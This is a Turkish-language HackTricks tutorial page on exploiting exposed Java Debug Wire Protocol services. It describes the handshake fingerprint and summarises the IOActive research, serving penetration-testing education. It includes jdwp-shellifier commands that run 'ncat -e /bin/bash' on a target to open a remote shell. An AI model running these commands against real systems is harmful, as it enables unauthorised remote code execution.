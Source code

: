# Pentesting JDWP - Java Debug Wire Protocol

{% hint style="success" %}
AWS Hacking öğrenin ve pratik yapın:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
GCP Hacking öğrenin ve pratik yapın: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter'da** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)** bizi takip edin.**
* **Hacking ipuçlarını paylaşmak için** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.

</details>
{% endhint %}

<figure><img src="/.gitbook/assets/image (14) (1).png" alt=""><figcaption></figcaption></figure>

**Zafiyet değerlendirmesi ve penetrasyon testi için anında kullanılabilir kurulum**. 20'den fazla araç ve özellik ile her yerden tam bir pentest gerçekleştirin; bu araçlar keşiften raporlamaya kadar uzanır. Biz pentester'ların yerini almıyoruz - onlara daha derinlemesine araştırma yapmaları, shell'leri patlatmaları ve eğlenmeleri için zaman kazandırmak amacıyla özel araçlar, tespit ve istismar modülleri geliştiriyoruz.

{% embed url="https://pentest-tools.com/?utm_term=jul2024&utm_medium=link&utm_source=hacktricks&utm_campaign=spons" %}

## İstismar

JDWP istismarı, **protokolün kimlik doğrulama ve şifreleme eksikliğine** dayanır. Genellikle **8000 numaralı portta** bulunur, ancak diğer portlar da mümkündür. İlk bağlantı, hedef porta "JDWP-Handshake" gönderilerek yapılır. Eğer bir JDWP servisi aktifse, aynı dize ile yanıt verir ve varlığını doğrular. Bu el sıkışma, ağdaki JDWP hizmetlerini tanımlamak için bir parmak izi yöntemi olarak işlev görür.

Süreç tanımlaması açısından, Java süreçlerinde "jdwk" dizesini aramak, aktif bir JDWP oturumunu gösterebilir.

Kullanılacak araç [jdwp-shellifier](https://github.com/hugsy/jdwp-shellifier). Farklı parametrelerle kullanabilirsiniz:
```bash
./jdwp-shellifier.py -t 192.168.2.9 -p 8000 #Obtain internal data
./jdwp-shellifier.py -t 192.168.2.9 -p 8000 --cmd 'ncat -l -p 1337 -e /bin/bash' #Exec something
./jdwp-shellifier.py -t 192.168.2.9 -p 8000 --break-on 'java.lang.String.indexOf' --cmd 'ncat -l -p 1337 -e /bin/bash' #Uses java.lang.String.indexOf as breakpoint instead of java.net.ServerSocket.accept
```
I found that the use of `--break-on 'java.lang.String.indexOf'` make the exploit more **stable**. And if you have the change to upload a backdoor to the host and execute it instead of executing a command, the exploit will be even more stable.

## Daha fazla detay

**Bu, [https://ioactive.com/hacking-java-debug-wire-protocol-or-how/](https://ioactive.com/hacking-java-debug-wire-protocol-or-how/) adresinin bir özetidir.** Daha fazla detay için kontrol edin.

1. **JDWP Genel Bakış**:
- Paket tabanlı bir ağ ikili protokoldür, öncelikle senkronizedir.
- Kimlik doğrulama ve şifreleme eksikliği, düşmanca ağlara maruz kaldığında savunmasız hale getirir.

2. **JDWP El Sıkışması**:
- İletişimi başlatmak için basit bir el sıkışma süreci kullanılır. Debugger (istemci) ve Debuggee (sunucu) arasında 14 karakterlik bir ASCII dizesi “JDWP-Handshake” değiştirilir.

3. **JDWP İletişimi**:
- Mesajlar, Uzunluk, Kimlik, Bayrak ve Komut Seti gibi alanlarla basit bir yapıya sahiptir.
- Komut Seti değerleri 0x40 ile 0x80 arasında değişir ve farklı eylem ve olayları temsil eder.

4. **Sömürü**:
- JDWP, keyfi sınıfları ve bytecode'u yüklemeye ve çağırmaya izin verir, bu da güvenlik riskleri oluşturur.
- Makale, Java Runtime referanslarını alma, kesme noktaları ayarlama ve yöntemleri çağırma gibi beş adımda bir sömürü sürecini detaylandırmaktadır.

5. **Gerçek Hayat Sömürüsü**:
- Potansiyel güvenlik duvarı korumalarına rağmen, JDWP hizmetleri keşfedilebilir ve gerçek dünya senaryolarında sömürülebilir, bu da ShodanHQ ve GitHub gibi platformlarda yapılan aramalarla gösterilmektedir.
- Sömürü betiği çeşitli JDK sürümlerine karşı test edilmiştir ve platformdan bağımsızdır, güvenilir Uzaktan Kod Çalıştırma (RCE) sunar.

6. **Güvenlik Etkileri**:
- İnternette açık JDWP hizmetlerinin varlığı, düzenli güvenlik incelemeleri yapma, üretimde hata ayıklama işlevlerini devre dışı bırakma ve uygun güvenlik duvarı yapılandırmalarının gerekliliğini vurgular.

### **Kaynaklar:**

* [[https://ioactive.com/hacking-java-debug-wire-protocol-or-how/](https://ioactive.com/hacking-java-debug-wire-protocol-or-how/)]
* [https://github.com/IOActive/jdwp-shellifier](https://github.com/IOActive/jdwp-shellifier)
* [http://docs.oracle.com/javase/7/docs/technotes/guides/jpda/architecture.html](http://docs.oracle.com/javase/7/docs/technotes/guides/jpda/architecture.html)
* http://www.secdev.org/projects/scapy(no longer active)
* [http://www.shodanhq.com/search?q=JDWP-HANDSHAKE](http://www.shodanhq.com/search?q=JDWP-HANDSHAKE)
* http://www.hsc-news.com/archives/2013/000109.html (no longer active)
* [http://packetstormsecurity.com/files/download/122525/JDWP-exploitation.txt](http://packetstormsecurity.com/files/download/122525/JDWP-exploitation.txt)
* https://github.com/search?q=-Xdebug+-Xrunjdwp\&type=Code\&ref=searchresults
* [http://docs.oracle.com/javase/6/docs/api/java/lang/Runtime.html](http://docs.oracle.com/javase/6/docs/api/java/lang/Runtime.html)
* [http://docs.oracle.com/javase/1.5.0/docs/guide/jpda/jdwp-spec.html](http://docs.oracle.com)
* [http://docs.oracle.com/javase/1.5.0/docs/guide/jpda/jdwp/jdwp-protocol.html](http://docs.oracle.com/javase/1.5.0/docs/guide/jpda/jdwp/jdwp-protocol.html)
* [http://nmap.org/nsedoc/scripts/jdwp-exec.html](http://nmap.org/nsedoc/scripts/jdwp-exec.html)

<figure><img src="/.gitbook/assets/image (14) (1).png" alt=""><figcaption></figcaption></figure>

**Zafiyet değerlendirmesi ve penetrasyon testi için anında kullanılabilir kurulum**. 20'den fazla araç ve özellik ile her yerden tam bir pentest gerçekleştirin. Biz pentester'ların yerini almıyoruz - onlara daha derinlemesine araştırma yapmaları, shell'leri patlatmaları ve eğlenmeleri için zaman kazandırmak amacıyla özel araçlar, tespit ve sömürü modülleri geliştiriyoruz.

{% embed url="https://pentest-tools.com/?utm_term=jul2024&utm_medium=link&utm_source=hacktricks&utm_campaign=spons" %}

{% hint style="success" %}
AWS Hacking'i öğrenin ve pratik yapın:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
GCP Hacking'i öğrenin ve pratik yapın: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter'da** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**'i takip edin.**
* **Hacking ipuçlarını paylaşmak için [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.**

</details>
{% endhint %}
